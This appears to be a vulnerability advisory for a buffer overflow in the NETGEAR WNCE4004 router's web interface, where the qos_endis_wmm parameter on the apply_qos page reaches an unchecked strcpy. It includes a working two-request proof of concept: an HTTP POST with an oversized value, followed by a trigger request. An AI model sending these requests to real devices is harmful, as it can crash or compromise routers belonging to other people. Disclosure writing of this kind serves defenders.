

# Overview

- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://www.netgear.com/support/download/?model=WNCE4004

# Affected version

WNCE4004 1.0.0.34 and before

# Vulnerability description

A buffer overflow exists in the NETGEAR WNCE4004 router (firmware V1.0.0.34 and before).By accessing the `apply_qos` page, users can pass the payload to the `endis_wl_wmm` configuration item through the `qos_endis_wmm` parameter, which will cause a buffer overflow when accessing this path again. As a result, an attacker could cause a denial of service or potentially remote code execution.

# Vulnerability details

Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 

Netgear uses uhttpd to handle HTTP requests, after accessing the `apply_qos` page, the `qos_endis_wmm` parameter is preserved in `endis_wl_wmm` in config. When accessing this path again, this config will be read from config and pass to a `strcpy` which casue the corruption.

  

# Poc
The packages should be sent in order.

Package 1
```
POST /apply.cgi?c HTTP/1.1
Host: 123
Content-Length: 1000

qos_endis_wmm=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&qos_endis_wmm_a=2&submit_flag=apply_qos
```


Package 2
```
POST /apply.cgi?c HTTP/1.1
Host: 123
Content-Length: 1000

change_wan_type=1&submit_flag=apply_qos
```